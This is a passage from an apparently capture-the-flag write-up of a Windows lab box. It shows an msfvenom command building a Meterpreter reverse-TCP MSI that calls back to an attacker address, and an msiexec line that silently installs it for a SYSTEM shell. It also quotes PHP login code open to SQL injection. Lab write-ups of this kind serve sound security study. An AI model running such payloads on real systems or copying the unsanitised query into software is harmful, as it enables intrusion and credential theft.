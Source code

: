 msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.14.111 LPORT=9001 -f msi > 0xd4y.msi

After downloading the malicious MSI file onto the box, it is important to start up a multi handler on msfconsole before executing it. Upon downloading the file and setting up the msfconsole listener, the msi file can be executed using the msiexec command (a command responsible for installing, modifying, and performing operations on Windows Installer[[3]](#ftnt3))\:

msiexec /quiet /qn /i 0xd4y.msi

![](/reports/Love/image3.png)

A shell is then returned as the system user.

Post Exploitation Analysis
==========================

* * *

SQL Injection
-------------

The SQL injection led to the leakage of the Admin password hash. This was due to the lack of user-input sanitization. The following code snippet was taken from C\:\\xampp\\htdocs\\omrs\\login.php, and is running on the root page of http\://10.10.10.239\:

{% highlight php %}
if(isset($_POST['login'])){          
   $voter = $_POST['voter']\;                                              
   $password = $_POST['password']\;                                        
                               
   $sql = "SELECT \* FROM voters WHERE voters_id = '$voter'"\;              
   $query = $conn->query($sql)\;
{% endhighlight %}
